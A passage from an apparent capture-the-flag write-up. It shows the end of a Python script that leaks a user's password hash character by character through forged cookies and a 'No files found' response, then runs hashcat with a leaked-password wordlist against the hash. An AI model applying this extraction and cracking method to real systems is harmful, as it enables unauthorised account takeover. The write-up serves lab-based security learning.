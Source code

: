 ```
            password += c
            done = False
            break
    if done:
        print(f"\r{password}   ")
        break

```

The `make_cookies` function will generate the cookie and signature, returning a dictionary with the cookie names and values. In the main program, I’ll start with an empty password, and loop over each possible hex character (I’m assuming this is a hash) and if it gets back a page without “No files found”, then I know that’s the next character in the password. It appends that character to the password, and starts the loop again. Only if it tries all the characters and finds no match does it exit.

It takes about a minute to run:

![](https://0xdf.gitlab.io/img/download-password-bruteforce.gif)

I can use the same script to get hashes for the other users as well, but I’m most interested in wesley as they are also the author of the package, and therefore most likely to have an account on Download.

### SSH

#### Crack Hash

I’ll save that hash to a file and pass it to `hashcat`. The detect mode comes up with a bunch of formats that it could be:

```
$ hashcat wesley.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)

Please specify the hash-mode with -m [hash-mode].

```
